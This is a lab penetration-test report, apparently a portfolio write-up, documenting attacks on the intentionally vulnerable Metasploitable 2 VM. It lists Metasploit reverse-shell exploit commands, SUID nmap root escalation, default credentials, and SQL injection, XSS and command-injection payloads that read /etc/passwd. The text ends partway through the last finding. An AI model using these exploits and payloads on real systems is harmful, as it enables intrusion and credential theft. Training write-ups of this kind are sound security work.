<div align="center">

# 🔐 Vulnerability Assessment & Penetration Testing Report

### Target: Metasploitable 2 | Attacker: Kali Linux | Lab: VirtualBox (Isolated)

**Author:** Santosh Bathala &nbsp;|&nbsp; **Date:** April 2026 &nbsp;|&nbsp; **Environment:** Controlled Lab — Educational Purposes Only

---

[](https://www.metasploit.com/)
[](https://www.kali.org/)
[](https://www.virtualbox.org/)
[]()
[]()

</div>

---

## ⚠️ Disclaimer

> This penetration test was conducted in a **controlled, isolated lab environment** using intentionally vulnerable virtual machines. All activities were performed **ethically and legally** for **educational purposes only**. No real-world systems were targeted or harmed. This report is intended solely as a learning document and portfolio reference.

---

## 📖 Introduction

This report documents a hands-on **Vulnerability Assessment and Penetration Test (VAPT)** performed against **Metasploitable 2** — a deliberately vulnerable Linux virtual machine maintained by Rapid7, designed specifically for practising penetration testing techniques.

The objective of this exercise was to simulate a real-world attacker scenario within a safe, isolated environment: enumerate services, identify exploitable vulnerabilities, gain initial access, escalate privileges, and document findings in a professional format.

Over the course of this assessment, **8 vulnerabilities** were identified and successfully exploited across **network services, default credentials, backdoored software, and web application weaknesses**. Five of these led directly to **root-level (uid=0) system compromise**.

This project demonstrates the practical application of core offensive security skills including:
- Network-layer exploitation with Metasploit Framework
- Privilege escalation via SUID binary abuse and `sudo` misconfigurations
- Web application attacks (SQL Injection, XSS, OS Command Injection)
- Documentation and professional reporting of findings

---

## 🧠 Skills Demonstrated

| Category | Skills |
|----------|--------|
| **Reconnaissance** | Network scanning, service fingerprinting with `nmap` |
| **Exploitation** | Metasploit Framework, manual payload crafting, WAR file deployment |
| **Privilege Escalation** | SUID binary abuse (`nmap --interactive`), `sudo su` via admin group |
| **Web Application Testing** | SQL Injection (UNION-based), Stored XSS, OS Command Injection |
| **Credential Attacks** | Default credential exploitation across PostgreSQL, Tomcat, VNC, Telnet |
| **Post-Exploitation** | File system enumeration, `/etc/passwd` extraction, Meterpreter sessions |
| **Reporting** | Structured VAPT report with CVE references, CVSS scores, and remediation |
| **Tools** | Metasploit, nmap, vncviewer, telnet, Burp Suite concepts, Firefox DevTools |

---

## 📋 Table of Contents

1. [Lab Setup](#-lab-setup)
2. [Executive Summary](#-executive-summary)
3. [Vulnerabilities Exploited](#-vulnerabilities-exploited)
   - [3.1 PostgreSQL Remote Code Execution](#31-postgresql-remote-code-execution)
   - [3.2 UnrealIRCd Backdoor](#32-unrealircd-backdoor)
   - [3.3 VNC Unauthorized Access](#33-vnc-unauthorized-access)
   - [3.4 Tomcat Manager Upload RCE](#34-tomcat-manager-upload-rce)
   - [3.5 Telnet Default Credentials](#35-telnet-default-credentials)
   - [3.6 DVWA — SQL Injection](#36-dvwa--sql-injection)
   - [3.7 DVWA — Stored XSS](#37-dvwa--stored-cross-site-scripting-xss)
   - [3.8 DVWA — Command Injection](#38-dvwa--os-command-injection)
4. [Privilege Escalation Summary](#-privilege-escalation-summary)
5. [Findings Summary](#-findings-summary)
6. [Recommendations](#-recommendations)
7. [Tools Used](#-tools-used)
8. [Conclusion](#-conclusion)

---

## 🖥️ Lab Setup

| Component | Details |
|-----------|---------|
| **Attacker Machine** | Kali Linux — IP: `10.1.169.188` |
| **Target Machine** | Metasploitable 2 — IP: `10.1.184.240` |
| **Hypervisor** | Oracle VirtualBox |
| **Network Mode** | Host-Only / Internal Network (fully isolated, no internet) |
| **Metasploit Version** | Framework v6.4.103-dev |
| **Screenshot Folder** | `./VAPT` |

---

## 📊 Executive Summary

| Metric | Value |
|--------|-------|
| **Total Vulnerabilities Found** | 8 |
| **Critical Severity** | 7 |
| **High Severity** | 1 |
| **Root-Level Compromises** | 5 of 8 |
| **Attack Vectors** | Network Services, Web Application, Default Credentials, Backdoored Software |

This assessment resulted in **complete system compromise** through multiple independent attack paths. An attacker with network access to this system would achieve full control with minimal effort, demonstrating the severe impact of default credentials, unpatched software, and missing input validation.

---

## 🔓 Vulnerabilities Exploited

---

### 3.1 PostgreSQL Remote Code Execution

| Field | Details |
|-------|---------|
| **CVE** | CVE-2007-3278 |
| **Module** | `exploit/linux/postgres/postgres_payload` |
| **Severity** | 🔴 Critical |
| **CVSS Score** | 9.0 |
| **Port** | 5432 |
| **Access Gained** | root (via SUID escalation) |

#### Description

The PostgreSQL service was running with **default credentials** (`postgres:postgres`) and no restrictions on remote connections. The Metasploit module abused the `COPY TO/FROM PROGRAM` feature to upload and execute a malicious shared library, opening a Meterpreter reverse shell. After landing as the `postgres` OS user, SUID binary enumeration revealed `nmap` with the SUID bit set, which was used to escalate to root.

#### Attack Steps

```bash
msf > use exploit/linux/postgres/postgres_payload
msf exploit(linux/postgres/postgres_payload) > set RHOSTS 10.1.184.240
msf exploit(linux/postgres/postgres_payload) > set USERNAME postgres
msf exploit(linux/postgres/postgres_payload) > set PASSWORD postgres
msf exploit(linux/postgres/postgres_payload) > set LHOST 10.1.169.188
msf exploit(linux/postgres/postgres_payload) > exploit

# Once inside shell:
find / -perm -4000 2>/dev/null     # Enumerate SUID binaries
nmap --interactive                  # Launch SUID nmap
nmap> !sh                          # Drop to root shell
whoami                             # → root
```

#### Result
✅ Meterpreter session opened as `postgres` user → escalated to **root** via SUID `nmap --interactive`

#### Evidence

**Step 1 — Exploit configuration and payload delivery:**


*Metasploit postgres_payload module configured with default credentials, payload staged and uploading*

---

**Step 2 — Shell obtained + SUID enumeration + root escalation:**


*Meterpreter shell dropped, `find / -perm -4000` reveals SUID `nmap`, `nmap --interactive` used to escalate to root (`whoami → root`)*

---

**Step 3 — Root confirmed, `/etc/passwd` dumped:**


*Full `/etc/passwd` contents read as root from `root@metasploitable:/etc#`*

---

### 3.2 UnrealIRCd Backdoor

| Field | Details |
|-------|---------|
| **CVE** | CVE-2010-2075 |
| **Module** | `exploit/unix/irc/unreal_ircd_3281_backdoor` |
| **Severity** | 🔴 Critical |
| **CVSS Score** | 10.0 |
| **Port** | 6667 (IRC) |
| **Access Gained** | root (direct — service runs as root) |

#### Description

UnrealIRCd version 3.2.8.1 was distributed with a **supply-chain backdoor** intentionally inserted into the source code by a malicious actor. Sending a specially crafted prefix string to the IRC port triggers arbitrary command execution. The service runs as root, meaning no privilege escalation is required — initial access is already root.

#### Attack Steps

```bash
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit > set RHOSTS 10.1.184.240
msf exploit > set LHOST 10.1.169.188
msf exploit > set PAYLOAD cmd/unix/reverse
msf exploit > exploit

# Immediate shell:
whoami    # → root
id        # → uid=0(root) gid=0(root)
```

#### Result
✅ Instant **root shell** — no additional escalation required. CVSS 10.0.

#### Evidence

**Backdoor triggered — root shell with `uid=0(root)` confirmed:**


*Command shell session opened immediately via IRC backdoor; `whoami` returns `root`, `id` confirms `uid=0(root) gid=0(root)`*

---

### 3.3 VNC Unauthorized Access

| Field | Details |
|-------|---------|
| **CVE** | N/A (Misconfiguration) |
| **Tool** | `vncviewer` (TightVNC) |
| **Severity** | 🔴 Critical |
| **Port** | 5900 (VNC) |
| **Access Gained** | root (GUI desktop session) |

#### Description

The VNC service was exposed on port 5900 and protected only by a **weak/default password**. Upon connecting with `vncviewer`, authentication succeeded and a **full graphical desktop session** was presented — running as root. The VNC session title bar explicitly reads: *"TightVNC: root's X desktop (metasploitable:0)"*.

#### Attack Steps

```bash
vncviewer 10.1.184.240
# Enter VNC password at prompt
# → Desktop: "TightVNC: root's X desktop (metasploitable:0)"

# In VNC terminal:
whoami    # → root
```

#### Result
✅ Full **root GUI desktop access** obtained. Complete graphical control over the target system.

#### Evidence

**Full root desktop session via VNC:**


*TightVNC session open as root — title bar confirms "root's X desktop (metasploitable:0)", `whoami` in terminal returns `root`*

---

### 3.4 Tomcat Manager Upload RCE

| Field | Details |
|-------|---------|
| **CVE** | CVE-2009-3843 |
| **Module** | `exploit/multi/http/tomcat_mgr_upload` |
| **Severity** | 🔴 Critical |
| **CVSS Score** | 9.3 |
| **Port** | 8180 (HTTP) |
| **Access Gained** | `tomcat55` user |

#### Description

Apache Tomcat's Manager web interface was accessible on port 8180 with **default credentials** (`tomcat:tomcat`). The Metasploit module authenticated to the Manager, crafted a malicious WAR (Web Application Archive) file containing a JSP reverse shell, deployed it, and triggered execution — opening a Meterpreter session as the `tomcat55` service account.

#### Attack Steps

```bash
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit > set RHOSTS 10.1.184.240
msf exploit > set LHOST 10.1.169.188
msf exploit > set RPORT 8180
msf exploit > set HttpUsername tomcat
msf exploit > set HttpPassword tomcat
msf exploit > exploit

meterpreter > getuid          # → Server username: tomcat55
meterpreter > pwd             # → /
meterpreter > ls              # Root filesystem browsable
```

#### Result
✅ Meterpreter session opened as **`tomcat55`**. Full filesystem access; further escalation possible.

#### Evidence

**WAR file deployed — Meterpreter session as tomcat55:**


*Tomcat Manager WAR upload successful; Meterpreter session opened as `tomcat55`; `getuid` confirms user; `ls /` shows full root filesystem*

---

### 3.5 Telnet Default Credentials

| Field | Details |
|-------|---------|
| **CVE** | N/A (Default Credentials + Insecure Protocol) |
| **Tool** | `telnet` |
| **Severity** | 🔴 Critical |
| **Port** | 23 (Telnet) |
| **Access Gained** | root (via `sudo su`) |

#### Description

The Telnet service was running and openly advertised the default credentials in its banner: *"Login with msfadmin/msfadmin to get started"*. After logging in as `msfadmin`, the user was found to be a member of the `admin` group with unrestricted `sudo` access. A single `sudo su` command with the same password yielded full root access. Telnet also transmits all credentials in **plaintext**, making this doubly dangerous.

#### Attack Steps

```bash
telnet 10.1.184.240
# Login:    msfadmin
# Password: msfadmin

msfadmin@metasploitable:~$ whoami    # → msfadmin
msfadmin@metasploitable:~$ id        # → uid=1000(msfadmin) groups=4(adm),112(admin)...
msfadmin@metasploitable:~$ sudo su
# [sudo] password: msfadmin

root@metasploitable:/home/msfadmin# whoami    # → root
root@metasploitable:/home/msfadmin# id        # → uid=0(root) gid=0(root) groups=0(root)
```

#### Result
✅ **Root access** achieved via Telnet default credentials + unrestricted `sudo`. Credentials transmitted in plaintext over the network.

#### Evidence

**Telnet login → sudo su → root:**


*Telnet session with `msfadmin:msfadmin`; `id` shows admin group membership; `sudo su` escalates to `uid=0(root)`; hostname confirms `metasploitable`*

---

### 3.6 DVWA — SQL Injection

| Field | Details |
|-------|---------|
| **OWASP Top 10** | A03:2021 — Injection |
| **Severity** | 🔴 Critical |
| **Port** | 80 (HTTP) |
| **Access Gained** | Full database read — user table + password hashes |

#### Description

The DVWA SQL Injection module passed user-supplied input directly into a SQL `SELECT` query with no sanitisation or parameterisation. Two injection techniques were demonstrated:

**Payload 1 — Boolean bypass (dump all records):**
```sql
1' OR '1'='1
```
Returns all rows from the `users` table — bypasses the `WHERE id = X` filter entirely.

**Payload 2 — UNION-based extraction (password hashes):**
```sql
1' UNION SELECT user, password FROM users#
```
Appends a second query, extracting **MD5-hashed passwords** for all users: `admin`, `gordonb`, `1337`, `pablo`, `smithy`.

#### Result
✅ **Full database user table compromised.** MD5 hashes extracted and crackable offline with tools like `hashcat` or `john`.

#### Evidence

**Payload 1 — All users returned via boolean bypass:**


*`1' OR '1'='1` returns all 5 user records: admin, Gordon Brown, Hack Me, Pablo Picasso, Bob Smith*

---

**Payload 2 — UNION SELECT dumps password hashes:**


*UNION-based injection extracts MD5 hashes for all users (e.g., admin: `5f4dcc3b5aa765d61d8327deb882cf99` = "password")*

---

### 3.7 DVWA — Stored Cross-Site Scripting (XSS)

| Field | Details |
|-------|---------|
| **OWASP Top 10** | A03:2021 — Injection (XSS) |
| **Severity** | 🟠 High |
| **Port** | 80 (HTTP) |
| **Access Gained** | Persistent JS execution in all visitors' browsers |

#### Description

The DVWA Guestbook feature stored and re-rendered user input without any sanitisation or output encoding. A JavaScript payload injected into the message field was **persisted in the database** and executed in every user's browser upon visiting the page — this is **Stored (Persistent) XSS**, the most impactful XSS variant.

The same payload also fired via the reflected XSS page when injected through the URL `name` parameter, demonstrating the application is vulnerable to both XSS types.

**Payload used:**
```html
<script>alert('Stored XSS!')</script>
```

In a real attack, this payload would be replaced with a cookie stealer, keylogger, or session hijack script.

#### Result
✅ JavaScript alert executes persistently on every page visit. **All users of the application are affected.**

#### Evidence

**Stored XSS — alert fires on page load:**


*XSS payload injected in guestbook Name/Message fields; `alert('Stored XSS!')` dialog fires from `10.1.184.240`*

---

**Reflected XSS — same payload firing via URL parameter:**


*XSS payload also executes via `xss_r` reflected endpoint — URL bar shows encoded script tag injected as `name` parameter*

---

### 3.8 DVWA — OS Command Injection

| Field | Details |
|-------|---------|
| **OWASP Top 10** | A03:2021 — Injection |
| **Severity** | 🔴 Critical |
| **Port** | 80 (HTTP) |
| **Access Gained** | Arbitrary OS command execution as web server user |

#### Description

The DVWA "Ping for FREE" feature passed user input directly to a system shell call (`shell_exec()`) without any sanitisation. By chaining shell commands with `&&`, arbitrary OS commands were executed server-side and their output returned in the browser.

**Payload 1 — Baseline (legitimate ping):**
```
10.1.184.240
```

**Payload 2 — Command injection:**
```
10.1.184.240 && cat /etc/passwd
```
The `ping` executes first, then `cat /etc/passwd` runs as the web server process, dumping the full system user file to the browser.

#### Result
